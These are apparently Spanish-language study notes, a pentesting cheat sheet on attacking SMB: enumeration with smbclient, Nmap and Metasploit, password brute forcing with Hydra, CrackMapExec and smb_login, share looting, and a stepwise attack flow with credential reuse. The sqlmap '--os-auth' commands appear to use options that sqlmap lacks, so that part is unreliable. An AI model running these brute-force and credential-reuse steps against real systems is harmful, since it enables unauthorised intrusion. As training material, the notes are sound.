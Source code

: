 # Apuntes: Protocolo SMB, uso de smbclient y Metasploit

## ¿Qué es SMB?
SMB (Server Message Block) es un protocolo de red que permite compartir archivos, impresoras y otros recursos entre máquinas, comúnmente en redes Windows.

### Puerto utilizado
- **TCP 445**

### Usos comunes
- Compartición de archivos e impresoras
- Autenticación de usuarios
- Comunicación entre servicios Windows

---

## Uso de smbclient (Herramienta de línea de comandos)

`smbclient` permite interactuar con recursos SMB desde la terminal, similar a un cliente FTP.

### Conexión a un recurso compartido
```
smbclient //IP/DIRECTORIO -U usuario
```

### Acceso anónimo
```
smbclient -L //IP -N
```

### Acciones comunes
- Ver recursos compartidos:
  ```
  smbclient -L //IP -U usuario
  ```
- Descargar archivos:
  ```
  get nombre_archivo
  ```
- Subir archivos:
  ```
  put nombre_archivo
  ```
- Navegar:
  ```
  ls
  cd nombre_directorio
  ```

---

## Enumeración SMB con Metasploit (msfconsole)

### 1. Buscar módulos SMB
```
search smb
```

### 2. Enumerar recursos compartidos
```
use auxiliary/scanner/smb/smb_enumshares
set RHOSTS <IP>
run
```

## 2. Enumeración básica con Nmap
```bash
# Detectar puerto SMB (445)
nmap -p 445 --open -sV <IP>

# Scripts NSE de enumeración SMB
nmap --script smb-enum-users.nse -p 445 <IP>
nmap --script smb-enum-shares.nse -p 445 <IP>
nmap --script smb-os-discovery.nse -p 445 <IP>
```

---

## 3. Fuerza Bruta SMB

### Con Hydra
```bash
# Usando diccionario de usuarios y contraseñas
hydra -L users.txt -P passwords.txt smb://<IP>

# Contra un usuario en específico
hydra -l administrator -P /usr/share/wordlists/rockyou.txt smb://<IP>
```

### Con CrackMapExec (CME)
```bash
# Fuerza bruta con diccionario
crackmapexec smb <IP> -u users.txt -p passwords.txt

# Contra un usuario en específico
crackmapexec smb <IP> -u administrator -p 'password'
```

### Con Metasploit
```bash
msfconsole
use auxiliary/scanner/smb/smb_login
set RHOSTS <IP>
set USER_FILE users.txt
set PASS_FILE passwords.txt
set THREADS 10
exploit
```

---

## 4. Acceso a recursos compartidos (shares)

### smbclient (con credenciales válidas)
```bash
# Conectarse a un recurso compartido
smbclient -U <usuario>%<password> //<IP>/<SHARE>

# Listar archivos
smb: \> ls

# Descargar archivo
smb: \> get file.txt

# Subir archivo
smb: \> put localfile.txt
```

### CrackMapExec – enumerar shares
```bash
# Listar shares accesibles para el usuario
crackmapexec smb <IP> -u <usuario> -p <password> --shares
```

---

## 5. SQLMap con SMB (abuso indirecto)
- En algunos entornos Windows, las credenciales SMB obtenidas también se usan para autenticación en bases de datos.
- Ejemplo: si encontramos credenciales en SMB, podemos probarlas con **SQLMap** en aplicaciones web que usen SQL Server.

```bash
# SQLMap con autenticación de Windows
sqlmap -u "http://<IP>/vulnerable.php?id=1" --dbms=mssql --os-auth --os-auth-user=<usuario> --os-auth-pass=<password>
```

---

## 6. Flujo típico de ataque SMB
1. **Descubrir servicio SMB activo:**
   ```bash
   nmap -p 445 -sV <IP>
   ```
2. **Enumerar usuarios/shares con Nmap o CME.**
3. **Realizar fuerza bruta con Hydra / CME / Metasploit.**
4. **Con credenciales válidas, conectarse con smbclient.**
5. **Enumerar qué shares son accesibles con CME.**
6. **Buscar información sensible (config files, credenciales, backups).**
7. **Probar credenciales también en otros servicios (SQL, RDP, WinRM).**

---

## 7. Resumen de Comandos Clave

```bash
# Fuerza bruta con Hydra
hydra -L users.txt -P passwords.txt smb://<IP>

# Fuerza bruta con CrackMapExec
crackmapexec smb <IP> -u users.txt -p passwords.txt

# Fuerza bruta con Metasploit
use auxiliary/scanner/smb/smb_login

# Conectarse a un share con smbclient
smbclient -U user%pass //<IP>/SHARE

# Ver shares con CME
crackmapexec smb <IP> -u user -p pass --shares

# SQLMap con credenciales SMB
sqlmap -u "http://<IP>/index.php?id=1" --dbms=mssql --os-auth --os-auth-user=user --os-auth-pass=pass
```
